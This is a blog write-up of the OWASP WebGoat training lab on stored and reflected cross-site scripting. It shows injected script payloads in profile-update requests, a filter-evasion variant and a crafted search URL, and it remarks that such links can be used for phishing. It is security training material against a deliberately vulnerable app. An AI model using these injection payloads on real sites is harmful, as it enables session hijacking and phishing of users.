 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Cross Site Scripting"
subtitle: "Stored XSS, Reflected XSS"
date:   2017-01-26 13:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Cross Site Scripting Lab: Stored XSS
Instructions:

- As 'Tom', execute a Stored XSS attack against the Street field on the Edit Profile page. Verify that 'Jerry' is affected by the attack.
- The passwords for the accounts are the lower-case versions of their given names (e.g. the password for Tom Cat is "tom").

A full lab section on XSS! Let's start off by looking at what a stored XSS attack is. 

From OWASPs page on [Testing for Stored XSS][stored-xss], a stored XSS attack generally follows these major steps:

- Attacker stores malicious code into the vulnerable page
- User authenticates in the application
- User visits vulnerable page
- Malicious code is executed by the user's browser

So our goal is persistent injection of malicious code. Let's navigate our way to the ```EditProfile``` page and see what we have going on and what we can exploit.

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/edit-profile.jpg">

Alright, let's see how our input is handled for the 'Street' field:

```
<input class="lesson_text_db" name="address1" value="2211 HyperThread Rd." type="text">
```

Okay, so if we edit that field and press ```UpdateProfile```, we send the following request:

```
firstName=Tom&lastName=Cat&address1=test&address2=New+York%2C+NY&phoneNumber=443-599-0762&startDate=1011999&ssn=792-14-6364&salary=80000&ccn=5481360857968521&ccnLimit=30000&description=Co-Owner.&manager=105&disciplinaryNotes=NA&disciplinaryDate=0&employee_id=105&title=Engineer&action=UpdateProfile
```

and get this page:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/edited-profile.jpg">

Our field for 'Street' now looks like this on ```ViewProfile```:

```
<td>Street: </td><td>test</td>
```

Well, lets see what happens when we try an alert. First, we ```UpdateProfile``` with our script:

```
firstName=Tom&lastName=Cat&address1=<script>'javascript:alert(`XSS`)';</script>&address2=New+York%2C+NY&phoneNumber=443-599-0762&startDate=1011999&ssn=792-14-6364&salary=80000&ccn=5481360857968521&ccnLimit=30000&description=Co-Owner.&manager=105&disciplinaryNotes=NA&disciplinaryDate=0&employee_id=105&title=Engineer&action=UpdateProfile
```

Annnnd......

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/tom-failed-alert-xss.jpg">

Huh. Okay, well let's try some other variations of the alert pop (via [OWASPs XSS Filter Evasion Cheat Sheet][filter-evasion]. For example, let's remove the quotations from around the ```javascript:alert()``` call:

```
<script>javascript:alert(`XSS`);</script>
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/tom-alert-xss.jpg">


Alright! Nice. So now that our alert is inserted into the webserver's data for Tom's ```Street``` field, let's see if Jerry sees what we see. We log into Jerry's account, and view Tom's profile:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/jerry-alert-xss.jpg">

Got 'em!

# Reflected XSS Attack
Instructions:

-Use a vulnerability on the Search Staff page to craft a URL containing a reflected XSS attack. Verify that another employee using the link is affected by the attack.

Reflected Cross-site Scripting (XSS) occur when an attacker injects browser executable code within a single HTTP response. The injected attack is not stored within the application itself; it is non-persistent and only impacts users who open a maliciously crafted link or third-party web page. The attack string is included as part of the crafted URI or HTTP parameters, improperly processed by the application, and returned to the victim. [Source][owasp-reflected-xss]

So, we need to create a search term that will perform an XSS attack on the resolved page. Let's look at the page we need to manipulate:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/search-page.jpg">

And when we throw some input at it

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/search-page-vuln.jpg">

Alright. Pretty simple attack vector. Let's toss a classic XSS pop at it:

```
<script>alert('XSS');</script>
```

Which generates this request URL:

```
192.168.56.101/WebGoat/attack?Screen=20&menu=900&search_name=%3Cscript%3Ealert%28%27xss%27%29%3B%3C%2Fscript%3E&action=FindProfile
```

And...

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_8_continued/search-page-reflected.jpg">

Boom! Now we can craft whatever malicious JS we want to toss on the end of that URL and phish someone into clicking it.

```
                       ,-,
                     ,' /
                   ,'  (          _          _
           __...--'     `-....__,'(      _,-'/
  _,---''''                     ````-._,'  ,'
,'  o                                  `  <
`.____  )))                          ...'  \
   `--..._        .   .__....----''''   `-. \
          ```7--i-`.  \                    `-`
 dun-dun     `.(    `-.`.
               `'      `'
```



### Resources

1 [OWASP Stored XSS][stored-xss]

2 [OWASP XSS Filter Evasion][filter-evasion]

[stored-xss]:https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[filter-evasion]:https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#TD
[owasp-reflected-xss]:https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)